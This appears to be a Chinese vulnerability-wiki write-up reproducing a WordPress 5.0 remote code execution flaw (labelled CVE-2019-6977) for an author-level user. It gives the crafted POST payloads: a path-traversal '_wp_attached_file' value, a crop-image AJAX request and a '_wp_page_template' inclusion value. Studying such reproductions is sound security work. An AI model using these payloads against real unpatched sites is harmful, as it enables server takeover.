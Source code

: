 （CVE-2019-6977）WordPress 5.0 RCE
==================================

一、漏洞简介
------------

漏洞条件：拥有一个author权限的账号

二、漏洞影响
------------

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release
5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress
5.1-alpha-44280更新后未更新的4.9.9\~5.0.0的WordPress都受到该漏洞影响。

三、复现过程
------------

传图片

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId24.png)

改信息

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId25.png)

保留该数据包，并添加POST

    &meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg

触发需要的裁剪

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId26.png)

裁剪

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId27.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

    action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100

触发需要的裁剪

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId28.png)

图片已经过去了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId29.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

    &meta_input[_wp_page_template]=cropped-32.jpg

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId30.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6977)WordPress5.0rce/media/rId31.png)

四、参考链接
------------

> <https://www.freebuf.com/vuls/196514.html>
